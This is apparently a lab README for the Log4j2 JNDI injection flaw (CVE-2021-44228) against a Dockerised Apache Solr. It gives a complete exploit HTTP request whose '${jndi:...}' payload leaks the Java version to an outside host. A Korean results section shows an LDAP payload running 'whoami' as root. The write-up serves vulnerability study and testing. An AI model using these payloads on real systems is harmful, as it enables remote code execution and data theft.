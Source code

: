 # Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j 2 is an upgrade to Log4j that provides significant improvements over its predecessor, Log4j 1.x, and provides many of the improvements available in Logback while fixing some inherent problems in Logback's architecture.

On Dec 2021, a 0-day exploit in the Apache Log4j2 was discovered. Log4j's JNDI support has not restricted what names could be resolved. Some protocols like `rmi:` and `ldap:` are unsafe or can allow remote code execution.

References:

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## Vulnerability Environment

Apache Log4j2 is not a certain web service, it is just a third-party library, so we can use a application that depend on Log4j2 to demonstrate how to exploit this vulnerability.

Execute following command to start a Apache Solr 8.11.0, which use Log4j 2.14.1:

```
docker compose up -d
```

After server start, browse `http://your-ip:8983` to see the admin portal of Apache Solr.

## Exploit

Simply, put the payload `${jndi:dns://${sys:java.version}.example.com}` as the admin action that can trigger the JNDI query.

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

Query will be shown at the DNS log:

![](1.png)

Because the target JDK version is below 8u191, we can use `rmi://` or `ldap://` to run the Java bytecode directly.

For vulnerability exploitation, you can use the [Java Chains](https://github.com/vulhub/java-chains). First, visit the [Quick Start](https://java-chains.vulhub.org/docs/guide) page to set up Java Chains. Then, follow the [JNDI Basic Exploitation Guide](https://java-chains.vulhub.org/docs/module/jndi#jndibasicpayload) to configure the command `touch /tmp/success` and generate a JNDI LDAP URL Payload. Finally, replace the payload in the previous HTTP request to successfully exploit the vulnerability.

![](2.png)

As you can see, `touch /tmp/success` is succesful executed:

![](3.png)

## PoC Results

취약점 검증 결과:

1. 환경 구성:
   - Apache Solr 8.11.0 (Log4j 2.14.1 사용)
   - Java Chains를 사용한 LDAP 서버 구성

2. 취약점 검증:
   - JNDI 인젝션 페이로드: `${jndi:ldap://127.0.0.1:50389/bc1381}`
   - 명령어 실행: `whoami`
   - 실행 결과: `root`

3. 결론:
   - Log4j JNDI 인젝션 취약점이 성공적으로 검증됨
   - 원격 코드 실행이 가능함을 확인

